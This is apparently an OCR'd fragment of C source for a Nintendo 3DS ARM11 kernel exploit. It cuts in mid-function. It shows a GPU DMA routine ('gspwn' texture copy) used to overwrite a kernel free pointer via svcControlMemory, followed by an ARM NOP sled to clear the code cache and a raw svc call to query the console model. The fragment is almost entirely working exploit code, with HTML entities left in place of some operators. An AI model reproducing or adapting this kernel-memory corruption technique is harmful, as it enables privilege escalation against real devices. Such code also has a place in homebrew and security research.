 ```c
        // src always 0x18402000
        GX_SetTextureCopy(0x18402000, dst, len, 0, 0, 0, 0, 8);
        GSPGPU_FlushDataCache (0x18401000, 16);
        GX_SetTextureCopy(dst, 0x18401000, 0x40, 0, 0, 0, 0, 8);
        memcpy(0x18401000, 0x18401000, 0x10000);
        result = *(unsigned int *)(0x18401000 + check_off);
    } while (result != check_val);

    return 0;
}

int
arm11_kernel_exploit_setup (void)
{
    unsigned int patch_addr;
    unsigned int *buffer;
    int i;
    int (*nop_func)(void);
    int *ipc_buf;
    int model;

    // part 1: corrupt kernel memory
    buffer = 0x18402000;
    // 0xFFFFFE0 is just stack memory for scratch space
    svcControlMemory(0xFFFFFE0, 0x18451000, 0, 0x1000, 1, 0); // free page
    patch_addr = *(int *)0x08F028A4;
    buffer[0] = 1;
    buffer[1] = patch_addr;
    buffer[2] = 0;
    buffer[3] = 0;
    // overwrite free pointer
    do_gspwn_copy(0x18451000, 0x10u, patch_addr, 4);
    // trigger write to kernel
    svcControlMemory(0xFFFFFE0, 0x18450000, 0, 0x1000, 1, 0);

    // part 2: obfuscation or trick to clear code cache
    for (i = 0; i &lt; 0x1000; i++)
    {
        buffer[i] = 0xE1A00000; // ARM NOP instruction
    }
    buffer[i-1] = 0xE12FFF1E; // ARM BX LR instruction
    nop_func = *(unsigned int *)0x08F02894 - 0x10000; // 0x10000 below current code
    do_gspwn_copy(*(unsigned int *)0x08F028A0 - 0x10000, 0x10000, 0xE1A00000, 0);
    nop_func ();

    // part 3: get console model for future use (?)
    __asm__ ("mrc p15,0,%0,c13,c0,3\t\n"
             "add %0, %0, #128\t\n" : "=r" (ipc_buf));

    ipc_buf[0] = 0x50000;
    __asm__ ("mov r4, %0\t\n"
             "mov r0, %1\t\n"
             "ldr r0, [r0]\t\n"
             "svc 0x32\t\n" :: "r" (ipc_buf), "r" (0x3DAAF0) : "r0", "r4");

    if (ipc_buf[1])
    {
        model = ipc_buf[2] &amp; 0xFF;
    }
    else
    {
        model = -1;
    }
```